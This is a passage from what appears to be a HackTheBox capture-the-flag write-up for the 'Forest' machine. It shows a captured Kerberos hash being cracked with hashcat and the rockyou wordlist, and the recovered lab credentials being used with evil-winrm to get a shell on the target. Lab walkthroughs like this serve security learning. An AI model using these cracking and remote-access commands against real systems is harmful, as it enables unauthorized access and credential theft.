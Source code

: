 
This message contains a chunk of data encrypted with the original user key, derived from it's password. This message could be cracked offline. To crack the hash we first need to copy the whole hash into a file.


Then we can run `hashcat` on it:


```bash
hashcat -m 18200 -a 0 hash.txt rockyou.txt
```

![cracked-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Forest/img/cracked-08.png)


So now we have credentials for a service account of `svc-alfresco : s3rvice`, and since the target has the `Win-RM` service open on port 5985, we can use `Evil-WinRM` to get access to the sytem:


```bash
evil-winrm -u svc-alfresco -p s3rvice -i forest.htb
```

![shell-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Forest/img/shell-09.png)
